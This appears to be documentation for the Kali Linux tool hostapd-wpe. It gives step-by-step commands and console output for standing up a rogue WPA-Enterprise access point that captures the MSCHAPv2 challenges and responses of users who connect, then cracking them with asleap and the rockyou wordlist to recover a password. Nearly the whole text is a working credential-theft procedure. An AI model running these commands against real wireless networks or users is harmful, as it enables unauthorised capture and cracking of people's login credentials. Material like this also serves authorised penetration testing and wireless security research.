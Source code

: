 ```
root@kali:~# apt update
root@kali:~# apt install hostapd-wpe
```

Once installed, configure AP properties by editing `/etc/hostapd-wpe/hostapd-wpe.conf`:

```
root@kali:~# nano /etc/hostapd-wpe/hostapd-wpe.conf
```

Kill network-manager using airmon-ng

```
root@kali:~# airmon-ng check kill
```

Start hostapd-wpe. A wireless AP will appear. Passwords of users connecting and authenticating to this network will be printed to the console.

```
root@kali:~# hostapd-wpe /etc/hostapd-wpe/hostapd-wpe.conf
Configuration file: /etc/hostapd-wpe/hostapd-wpe.conf
Using interface wlan0 with hwaddr c4:e9:84:17:ff:c8 and ssid "hostapd-wpe"
wlan0: interface state UNINITIALIZED>ENABLED
wlan0: AP-ENABLED
wlan0: STA ac:fd:ec:78:72:bd IEEE 802.11: authenticated
wlan0: STA ac:fd:ec:78:72:bd IEEE 802.11: associated (aid 1)
wlan0: CTRL-EVENT-EAP-STARTED ac:fd:ec:78:72:bd
wlan0: CTRL-EVENT-EAP-PROPOSED-METHOD vendor=0 method=1
wlan0: CTRL-EVENT-EAP-PROPOSED-METHOD vendor=0 method=25

mschapv2: Sat Nov 12 16:04:03 2016
username: me
challenge: 8e:0e:9d:0b:5a:3f:f5:23
response: 34:f8:42:4d:16:c7:2d:69:cc:38:10:d4:cf:71:f7:83:37:68:d8:8a:e9:86:f2:67
jtr NETNTLM: me:$NETNTLM$8e0e9d0b5a3ff523$34f8424d16c72d69cc3810d4cf71f7833768d88ae986f267

wlan0: CTRL-EVENT-EAP-FAILURE ac:fd:ec:78:72:bd
wlan0: STA ac:fd:ec:78:72:bd IEEE 802.1X: authentication failed - EAP type: 0 (unknown)
wlan0: STA ac:fd:ec:78:72:bd IEEE 802.1X: Supplicant used different EAP type: 25 (PEAP)
wlan0: STA ac:fd:ec:78:72:bd IEEE 802.11: disassociated
wlan0: STA ac:fd:ec:78:72:bd IEEE 802.11: deauthenticated due to local deauth request
wlan0: AP-DISABLED
nl80211: deinit ifname=wlan0 disabled_11b_rates=0
root@kali:~#
```

Once a challenge and responce are obtained, crack them using asleap, together with a password dictionary file.

```
root@kali:~# zcat /usr/share/wordlists/rockyou.txt.gz | asleap -C 8e:0e:9d:0b:5a:3f:f5:23 -R 34:f8:42:4d:16:c7:2d:69:cc:38:10:d4:cf:71:f7:83:37:68:d8:8a:e9:86:f2:67 -W -
asleap 2.2 - actively recover LEAP/PPTP passwords. <jwright@hasborg.com>
Using STDIN for words.
hash bytes: 586c
NT hash: 8846f7eaee8fb117ad06bdd830b7586c
password: password
```

